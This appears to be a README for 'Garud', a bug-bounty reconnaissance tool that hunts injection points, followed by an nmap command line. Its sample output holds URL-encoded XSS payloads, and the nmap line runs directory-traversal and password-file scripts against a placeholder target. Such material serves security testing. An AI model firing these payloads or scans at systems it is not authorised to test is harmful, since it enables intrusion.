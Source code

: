 ## Garud
* Find injections points

Example Usage
```
garud -d hackerone.com
```
Exclude out of scope domains
```
echo test.hackerone.com > ossdomain.txt
garud -d hackerone.com -x ~/ossdomain.txt
```
With all flags
```
garud -d hackerone.com -j -s -x /home/oss.txt
```
Hide output in the terminal
```
garud -d hackerone.com -s
```
Store output in a single json file
```
garud -d hackerone.com -s -j
cd hackerone
cat output.json | jq
{
  "nuclei_critical": [],
  "vuln_crlf": [],
  "dalfox": [
    "[POC][V][GET][inATTR-double(3)-URL] http://subdomain.target.tld/hpp?pp=FUZZ%22onpointerout%3Dconfirm.call%28null%2C1%29+class%3Ddalfox+",
    ----------------------snip----------------------
    "subdomains": [
      "sub.target.tld",
      "tub.target.tld",
      "subdomain.target.tld"
  ],
  "vuln_xss": [
    "[POTENTIAL XSS] - http://subdomain.target.tld/hpp/?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E ",
    "[POTENTIAL XSS] - http://subdomain.target.tld:80/hpp/?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E ",
    "[POTENTIAL XSS] - http://subdomain.target.tld:80/hpp/index.php?pp=%22%3E%2F%3E%3Csvg%2Fonload%3Dconfirm%28document.domain%29%3E "
  ]
}
```

## Nmap

```sh
nmap -p 80 -vv --script=http-enum.nse,http-methods.nse,http-majordomo2-dir-traversal.nse,http-auth.nse,http-passwd.nse,http-php-version.nse,http-phpmyadmin-dir-traversal.nse,http-put.nse,http-apache-negotiation.nse,http-adobe-coldfusion-apsa1301.nse TARGET_IP
```
